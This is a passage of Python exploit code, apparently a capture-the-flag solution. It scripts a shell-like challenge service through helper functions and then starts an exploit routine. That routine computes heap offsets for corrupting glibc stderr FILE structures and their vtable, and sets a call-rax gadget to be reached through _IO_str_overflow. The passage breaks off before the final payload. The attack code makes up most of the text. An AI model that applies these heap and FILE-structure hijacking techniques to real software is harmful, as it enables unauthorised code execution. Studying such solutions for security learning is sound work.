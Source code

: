 ```python
  hoge("echo")
  c.recvuntil("arg> ")
  c.sendline(content)
  c.recvuntil("redirect?> ")
  c.sendline("Y")
  c.recvuntil("path> ")
  c.sendline(path)
  if "invalid" in c.recvline():
    raw_input("error detected @ echo()")
    exit()

def rm(path):
  hoge("rm")
  c.recvuntil("filename> ")
  c.sendline(path)
  if "no" in c.recvline():
    raw_input("error detected @ rm()")
    exit()

# relative only
def cd(path):
  hoge("cd")
  c.recvuntil("path> ")
  c.sendline(path)

# current dir only
def mkdir(name):
  hoge("mkdir")
  c.recvuntil("name")
  c.sendline(name)

def te(filename,content):
  touch(filename)
  echo(filename,content)

def formula(delta):
  return delta*2 + 0x20

## exploit ###########################################

def exploit():
  global c
  repeat_flag = False

  # calc ##############################################

  gmf = 0xc940
  bufend_s = formula(0xa70 - 0x8)
  stderralloc_s = formula(0xb08)
  dumpedend_s = formula(0x1ce0)
  pedantic_s = formula(0x1cf8 - 0x8)
  stderrmode_s = formula(0xaf0 - 0x8)
  stderrflags_s = formula(0xa30 - 0x8)
  stderrwriteptr_s = formula(0xa58 - 0x8)
  stderrbufbase_s = formula(0xa68 - 0x8)
  stderrvtable_s = formula(0xa68 + 0xa0 - 0x8)
  stdoutmode_s = formula(0xbd0 - 0x8)
  morecore_s = formula(0x880)
  stderrbufend_s = formula(0xa68)
  stderr_s = formula(0x7f17c6744680-0x7f17c6743c40+0x10 - 0x28)
  stderr60_s = formula(0x7f17c6744680-0x7f17c6743c40+0x10 - 0x28 + 0x60)
  LSB_IO_str_jmps = 0x7360
  LSBs_call_rax = 0x03d8            # call rax gadget. to be called @ _IO_str_overflow()
```